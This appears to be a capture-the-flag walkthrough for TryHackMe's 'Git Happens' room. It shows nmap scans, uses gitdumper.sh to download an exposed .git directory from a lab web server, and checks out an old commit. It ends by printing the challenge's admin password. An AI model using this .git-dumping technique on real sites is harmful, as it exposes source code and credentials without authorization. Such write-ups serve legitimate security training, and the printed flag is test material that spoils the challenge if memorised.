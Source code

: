 # Git Happens | Easy

## Overview

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Room link: https://tryhackme.com/room/githappens
Difficulty: **Easy**
## Walkthrough

Scanning all ports only shows port 80 is open (HTTP):

```console
$ nmap -p- -T4 VICTIM_IP -oN scans/initial.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 16:21 GMT
Nmap scan report for VICTIM_IP
Host is up (0.040s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 30.38 seconds
```

Running a full scan against this port confirms it is running Ubuntu with version `1.14.0` of Nginx and finds a Git repository at `/.git/`.

```console
$ nmap -p 80 -A -T4 VICTIM_IP -oN scans/openports.nmap   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 16:22 GMT
Nmap scan report for VICTIM_IP
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   VICTIM_IP:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Super Awesome Site!
|_http-server-header: nginx/1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.9.0.1
2   31.52 ms VICTIM_IP

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.53 seconds
```

Navigating to the website shows a login form:

![GitHappens - LoginForm](/images/githappens_loginform.png)

From our Nmap scan, recall that there is a `/.git/` directory which holds the structure of a GitHub repository:

![GitHappens - .git directory](/images/githappens_git_directory.png)

We can use [gitdumper.sh](https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh) from [GitTools](https://github.com/internetwache/GitTools) to dump the Git repository from the site:

```console
$ wget https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
$ chmod +x gitdumper.sh
$ ./gitdumper.sh http://VICTIM_IP/.git/ .
```

![GitHappens - gitdumper.sh](/images/githappens_gitdumper.png)

We now have a `.git/` folder downloaded to our attacker machine. With this, we can run `git log` to show the commit logs. From the log, we can see a security change was made to obfuscate the code at commit `e56eaa8e29b589976f33d76bc58a0c4dfb9315b1`.

```console
$ git log
```

![GitHappens - Commit Log](/images/githappens_commitlog.png)

As such, we can run `git checkout` to load the previous commit `395e087334d613d5e423cdf8f7be27196a360459` and view the deobfuscated code.

```console
$ git checkout 395e087334d613d5e423cdf8f7be27196a360459
```

We can view the `index.html` file to view the **Super Secret Password**:

![GitHappens - Admin Credentials](/images/githappens_admin_credentials.png)

-----

1. Find the Super Secret Password.

```
Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```